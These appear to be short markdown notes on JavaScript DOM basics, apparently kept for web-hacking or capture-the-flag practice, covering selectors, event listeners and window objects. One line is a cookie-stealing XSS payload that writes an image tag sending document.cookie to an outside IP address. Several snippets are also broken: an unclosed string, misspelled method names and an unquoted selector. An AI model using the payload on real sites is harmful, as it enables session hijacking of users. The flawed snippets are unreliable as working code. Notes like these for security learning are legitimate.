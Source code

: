 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> 
> document.getElementById('1');
> 
> document.getElementByTagName('div');
> 
> document.getElementByClassName('list-items');
> 
> document.querySelector(#main-heading);
> 
> document.querySelectorAll('div');
> 
> 
> document.write('something');
> 
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

